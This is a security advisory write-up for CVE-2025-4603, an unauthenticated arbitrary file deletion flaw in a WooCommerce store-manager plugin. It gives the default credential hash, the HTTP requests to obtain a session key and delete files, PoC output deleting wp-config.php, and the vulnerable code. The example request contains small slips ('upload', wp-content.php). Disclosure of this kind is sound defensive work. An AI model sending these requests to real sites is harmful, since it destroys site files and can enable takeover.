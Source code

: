 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Delete'
date = 2025-05-23T05:20:12+00:00
hideToc = true


citations = [
  "https://www.cve.org/CVERecord?id=CVE-2025-4603",
  "https://nvd.nist.gov/vuln/detail/CVE-2025-4603",
  "https://www.wordfence.com/threat-intel/vulnerabilities/researchers/ryan-kozak"
]

tags = ["CVE-2025-4603", "RCE", "WordPress", "eMagicOne"]
+++

### CVE-2025-4603

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file deletion operations on the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and delete arbitrary files from the WordPress root or any accessible directory.


## Reproduction
A POC [CVE-2025-4603.py](https://github.com/d0n601/CVE-2025-4603/blob/master/CVE-2025-4603.py) is provided to demonstrate an attacker deleting `wp-config.php`.

```
python3 CVE-2025-4603.py https://lab1.hacker --file wp-config.php
[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc"}
[+] Got session key: 38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc
[*] Attempting to delete file...
[*] Delete response: {"response_code":"20","message":"File was deleted from FTP Server successfully"}
```



## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' . self::TABLE_SESSION_KEYS
        . "` (`session_key`, `date_added`, `last_activity`) VALUES ('" . $this->shop_cart->p_sql( $key ) . "', '"
        . $date . "', '" . $date . "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```




### Arbitrary File Deletion
With a valid session key, an attacker can upload a file using the `delete_file` task:



```http
POST /?connector=bridge&task=delete_file&key=<session_key>&path=wp-content.php

```

**Relevant code:**
`classes/class-emosmconnectorcommon.php` (lines ~2167+):

```php
	/** Delete file */
	private function delete_file() {
		if ( ! $this->shop_cart->isset_request_param( 'path' ) ) {
			$this->generate_error( $this->br_errors['path_param_missing'] );
		}

		$filepath = (string) $this->shop_cart->get_request_param( 'path' );

		if ( empty( $filepath ) ) {
			$this->generate_error( $this->br_errors['path_param_empty'] );
		}

		$filepath = $this->shop_cart->get_shop_root_dir() . '/' . $filepath;

		if ( ! $this->shop_cart->file_exists( $filepath ) ) {
			$this->generate_error( $this->br_errors['delete_file_error'] );
		}

		$this->shop_cart->delete_file( $filepath );
	}
```


File deletion in `class-emosmcwoocommerceoverrider.php` (lines ~380+)::
```php
public function delete_file($filepath) {
    if (!file_exists($filepath)) {
        die(json_encode(array(
            self::CODE_RESPONSE => self::ERROR_CODE_COMMON,
            self::KEY_MESSAGE => 'File is missing on server',
        )));
    }

    if (unlink($filepath)) {
        die(json_encode(array(
            self::CODE_RESPONSE => self::SUCCESSFUL,
            self::KEY_MESSAGE => 'File was deleted from FTP Server successfully',
        )));
    }
}
```
**Result:** The file is deleted from the server.

